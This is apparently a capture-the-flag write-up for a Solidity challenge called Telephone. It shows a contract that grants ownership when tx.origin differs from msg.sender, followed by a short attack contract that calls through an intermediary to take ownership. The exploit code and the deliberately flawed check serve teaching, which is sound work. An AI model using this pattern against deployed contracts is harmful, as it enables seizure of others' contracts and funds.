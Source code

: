 # Challenge 4

 ```solidity
 // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
} 
 ```

Challenge
---

> Claim ownership of the contract below to complete this level.

1. msg.sender - caller of the function.
2. tx.origin - tx.origin is the original sender of a transaction.

Solution
---
1. tx origin attack is like phising attack. here's code to your solution.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TelephoneAttack {
    Telephone telephone;

    constructor(address _addr){
        telephone = Telephone(_addr);
    }

    function solveChangeOwner() public {
        telephone.changeOwner(msg.sender);
    }

}
```
2. We made new contract and call the `solveChangeOwner()` so we can claim the owership of the Telephone contract. you can submit the instance and you will pass the test.